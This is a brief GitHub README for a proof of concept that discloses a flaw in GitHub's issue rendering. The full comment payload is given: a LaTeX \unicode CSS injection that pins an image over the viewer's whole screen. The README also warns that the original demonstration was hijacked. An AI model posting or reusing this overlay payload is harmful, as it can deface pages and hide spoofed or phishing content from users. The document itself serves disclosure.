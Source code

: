 # GithubFullscreenIssuePoC

# WARNING - PoC WAS HIJACKED AND IS CURRENTLY UNSAFE

This repo is to demonstrate an issue with Github that covers the users screen when they interact with an issue.

Issue Link / PoC: Temporarily removed due to comment hijack

Issue Comment  

```
Test

$$\ce{$\unicode[goombafont; color:red; pointer-events: none; z-index: 5; position: fixed; inset: 0; opacity: 100%; background-size: 100% 100%; background-image: url('https://raw.githubusercontent.com/Reelix/GithubFullscreenIssuePoC/main/Github-Logo.png');]{x0000}$}$$
```
